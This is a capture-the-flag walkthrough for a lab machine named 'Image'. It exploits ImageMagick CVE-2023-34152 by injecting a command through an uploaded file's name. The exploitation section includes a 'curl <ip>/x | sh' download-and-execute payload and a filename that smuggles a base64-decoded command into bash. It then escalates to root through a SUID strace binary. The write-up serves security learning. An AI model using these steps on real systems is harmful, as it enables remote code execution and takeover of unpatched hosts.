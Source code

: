 ____

# Walkthrough for Image

# Enumeration

## Nmap

With nmap scan, we notice a web server on the target machine.

The web app describes the format and characteristics of image file.

## ImageMagick

> invoked from the command line as magick, is a free and open-source cross-platform software suite for displaying, creating, converting, modifying, and editing raster images

## Exploitation

### Remote Code execution

We find **"[CVE-2023-34152](https://nvd.nist.gov/vuln/detail/CVE-2023-34152)"** recorded for **ImageMagick**.

The exploit details can be found here: https://github.com/ImageMagick/ImageMagick/issues/6339

Visit the webpage and upload an image file

We can see the ImageMagick version, which may provide an indication of the **CVE-2023-34152** that are applicable to it.

Let's use an image file. You can just create an arbitrary file like "echo -ne test > en.png" as well.

Encode reverse shell payload in base64 encoded form

```bash
echo "curl <ip>/x | sh" | base64 -w 0
```

Rename the image file like below,

```bash
cp en.png '|en"`echo <base64-encoded-payload> | base64 -d | bash`".png
```

Upload the image file and you should get code execution

## Privilege Escalation

After some enumeration we notice that strace binary has it's SUID bit set. We can elevate our privileges like below,

```
root@image:/var/www/html# ls -alh /usr/bin/strace
-rwsr-sr-x 1 root root 1.6M Apr 16  2020 /usr/bin/strace

$ strace -o /dev/null /bin/sh -p
id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
bash -p -i
bash: cannot set terminal process group (904): Inappropriate ioctl for device
bash: no job control in this shell
bash-5.0# ls -alh
...
```